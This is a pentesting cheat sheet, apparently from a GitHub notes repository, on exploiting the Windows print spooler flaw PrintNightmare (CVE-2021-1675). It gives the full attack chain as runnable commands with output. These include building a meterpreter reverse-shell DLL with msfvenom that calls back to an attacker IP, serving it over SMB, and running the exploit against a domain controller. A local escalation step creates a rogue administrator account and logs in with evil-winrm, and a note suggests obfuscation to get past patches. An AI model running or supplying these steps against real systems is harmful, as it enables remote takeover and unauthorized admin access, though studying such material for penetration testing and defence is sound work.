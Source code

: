 # PrintNightmare

## PrintNightmare (CVE-2021-1675) - RCE

- Takes advantage of printer spooler that runs as sys priv
- Check if our target is vulnerable `rpcdump.py @DOMAIN-CONTROLLER-IP | egrep 'MS-RPRN|MS-PAR'`
- Create a malicious dll to run it along the py file from the resource `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKING-MACHINE-IP LPORT=4444 -f dll > shell.dll` 
  ```
  ┌──(root💀kali)-[/home/kali]
  └─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.8 LPORT=4444 -f dll > shell.dll                                                                                                           2 ⨯
  [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
  [-] No arch selected, selecting arch: x64 from the payload
  No encoder specified, outputting raw payload
  Payload size: 510 bytes
  Final size of dll file: 8704 bytes
  ```
- run `msfconsole` to catch the shell `use multi/handler` `set payload windows/x64/meterpreter/reverse_tcp` set LHOST and LPORT
- setup a file share with smbserver.py (Impacket): `smbserver.py share 'pwd' -smb2support` (will share current working dir)
- Run the exploit `python3 exploit.py domain.local/username:password@DOMAIN-CONTROLLER-IP-ADD '\\ATTACKING-MACHINE-IP\share\shell.dll'`
- We should get a shell

*Note: With patches it might be necessary to use obfuscations techniques*

## PrintNightmare - LPE

- Create an user admin from the compromised machine:
```
*Evil-WinRM* PS C:\Users\user\Documents> Import-Module .\CVE-2021-1675.ps1
[STRIPPED]
*Evil-WinRM* PS C:\Users\user\Documents> Invoke-Nightmare -NewUser "adminhackr" -NewPassword "adminhackr1!" -DriverName "PrintMe"
[STRIPPED]
[+] created payload at C:\Users\user\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_19a3fe50fa9a21b6\Amd64\mxdwdrv.dll"
[+] added user adminhackr as local administrator
[+] deleting payload from C:\Users\user\AppData\Local\Temp\nightmare.dll
```

- We launch evilwinrm with this new user and we have an admin shell:
```
┌──(kali㉿kali)-[~]
└─$ proxychains evil-winrm -i 172.16.2.5 -u adminhackr -p adminhackr1!                                                                                                                               76 ⨯
[STRIPPED]
Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  172.16.2.5:5985  ...  OK
*Evil-WinRM* PS C:\Users\adminhackr\Documents> 
```

### PrintNightmare - Resources

- [cube0x0 RCE](https://github.com/cube0x0/CVE-2021-1675)
- [calebstewart LPE](https://github.com/calebstewart/CVE-2021-1675)
- [Playing with PrintNightmare - 0xdf hacks stuff](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html#target)
- [PrintNightmare - TheMayor Pentesting notes](https://themayor.notion.site/d7a4f698bd2d453cbb55a60c6458542e?v=ec41d2f3c44743949e47237c03e82b1b&p=136a31bb0933493d852f3b9d38e8544f)

